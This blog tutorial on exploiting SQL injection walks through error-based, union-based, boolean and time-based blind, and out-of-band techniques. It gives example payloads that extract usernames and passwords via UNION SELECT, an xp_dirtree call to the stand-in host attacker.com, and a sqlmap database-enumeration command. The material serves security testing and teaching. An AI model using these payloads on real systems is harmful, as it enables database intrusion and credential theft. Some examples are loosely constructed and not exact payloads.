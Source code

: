 ```yaml
---
title: "Exploiting SQL Injection Vulnerabilities"
seoTitle: "SQL Injection Exploits Explained"
seoDescription: "Guide to exploiting SQL injection vulnerabilities: techniques, examples, and automated tools for web application security testing"
datePublished: Fri Jun 28 2024 04:16:50 GMT+0000 (Coordinated Universal Time)
cuid: clxy6luun000f09ky9zp5ao51
slug: exploiting-sql-injection-vulnerabilities
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1719509239858/dadd4a58-d48a-46fe-b78b-c62ba75601af.jpeg
tags: sql-injection, application-security, cybersecurity-1, ethicalhacking

---
```


**Introduction**

In the past sections, we discussed the different types of SQL injection vulnerabilities and how to test an application to see if it's vulnerable to SQL injection.

If you missed it, you can [`check it out here`](https://dhananjaykulkarni.hashnode.dev/steps-to-detect-sql-injection-vulnerabilities)

[In this sectio](https://dhananjaykulkarni.hashnode.dev/steps-to-detect-sql-injection-vulnerabilities#)n, we'll dive into how to exploit SQL injection vulnerabilities to achieve your end goal. This will vary depending on the type of SQL injection vulnerability you're dealing with. We'll cover five different types: error-based SQL injection, union-based SQL injection, Boolean-based blind SQL injection, time-based blind SQL injection, and out-of-band SQL injection.

### 1\. Error-Based SQL Injection

**Concept:** Error-based SQL injection is an in-band SQL injection technique that forces the database to generate an error, giving the attacker information upon which to refine a query.

**Exploitation Steps:**

1. **Submit SQL Specific Characters:**
    
    * Input characters like single quote (`'`), double quote (`"`), or a comment delimiter (`--`).
        
2. **Observe the Application’s Response:**
    
    * Look for error messages that reveal database information.
        

**Example:**

```sql
SELECT * FROM users WHERE username = 'admin' --' AND password = 'password';
```

**Expected Result:** The application throws an error message similar to:

```plaintext
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''--' AND password = 'password'' at line 1
```

This indicates the application is vulnerable to SQL injection.

### 2\. Union-Based SQL Injection

**Concept:** Union-based SQL injection leverages the UNION SQL operator to combine the results of two queries into a single result set. To use the UNION operator, two rules must be followed:

* The number and order of the columns must be the same in both queries.
    
* The data types must be compatible.
    

**Exploitation Steps:**

1. **Determine Number of Columns:**
    
    * Use `ORDER BY` clause or inject null values.
        
2. **Find Useful Data Types:**
    
    * Probe columns to see if they can hold string data.
        

**Example:**

```sql
SELECT title, cost FROM products WHERE id = 1 UNION SELECT null, null -- ;
```

**Expected Result:**

```plaintext
All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.
```

By incrementing the number of null values, you determine the number of columns.

3. **Exploit the Vulnerability:**
    

```sql
SELECT title, cost FROM products WHERE id = 1 UNION SELECT username, password FROM users -- ;
```

**Expected Result:** The result set combines product titles and costs with usernames and passwords from the users table.

### 3\. Boolean-Based Blind SQL Injection

**Concept:** Boolean-based blind SQL injection relies on sending Boolean conditions to the server and observing differences in responses to infer data.

**Exploitation Steps:**

1. **Submit Boolean Conditions:**
    
    * Send a condition that evaluates to false and observe the response.
        
    * Send a condition that evaluates to true and observe the response.
        

**Example:**

```sql
SELECT * FROM users WHERE username = 'admin' AND '1'='1'; -- True condition
SELECT * FROM users WHERE username = 'admin' AND '1'='2'; -- False condition
```

**Expected Result:**

* The first query returns the expected page.
    
* The second query returns a different page or an error.
    

### 4\. Time-Based Blind SQL Injection

**Concept:** Time-based blind SQL injection uses time delays in SQL queries to infer data from the database.

**Exploitation Steps:**

1. **Submit Time-Delay Payloads:**
    
    * Inject a payload that causes a delay if the condition is true.
        

**Example:**

```sql
SELECT * FROM users WHERE username = 'admin' AND IF(1=1, SLEEP(5), 0);
```

**Expected Result:** The application delays the response by 5 seconds, indicating the condition is true.

### 5\. Out-of-Band SQL Injection

**Concept:** Out-of-band SQL injection relies on triggering a network connection to a system that you control.

**Exploitation Steps:**

1. **Submit Out-of-Band Payloads:**
    
    * Inject payloads designed to trigger a network interaction.
        

**Example:**

```sql
SELECT * FROM users WHERE username = 'admin'; exec xp_dirtree '\\attacker.com\share';
```

**Expected Result:** The server attempts to access [`attacker.com`](http://attacker.com), indicating a successful out-of-band interaction.

### Automated Exploitation Tools

**SQLMap:**

![sqlmap: automatic SQL injection and database takeover tool](https://sqlmap.org/images/screenshot.png align="left")

SQLMap is a powerful, open-source tool used to automate the process of detecting and exploiting SQL injection vulnerabilities. It can identify the type of SQL injection and exploit it to extract data, gain a shell, and more. To read more click [`here`](https://sqlmap.org/)

**Usage Example:**

```bash
sqlmap -u "http://example.com/vulnerable.php?id=1" --dbs
```

**Expected Result:** SQLMap identifies the database type and lists all available databases.

**Web Application Vulnerability Scanners:**

These tools scan web applications for various vulnerabilities, including SQL injection. They automate the discovery process but often require manual verification and exploitation. Read more [`here`](https://owasp.org/www-community/Vulnerability_Scanning_Tools)

### Conclusion

Understanding and exploiting SQL injection vulnerabilities require a methodical approach and familiarity with SQL concepts. By following the steps outlined for each type of SQL injection, you can effectively identify and exploit these vulnerabilities to test the security of web applications. Tools like SQLMap and web application vulnerability scanners can aid in this process, but manual testing and validation remain crucial for comprehensive security assessments.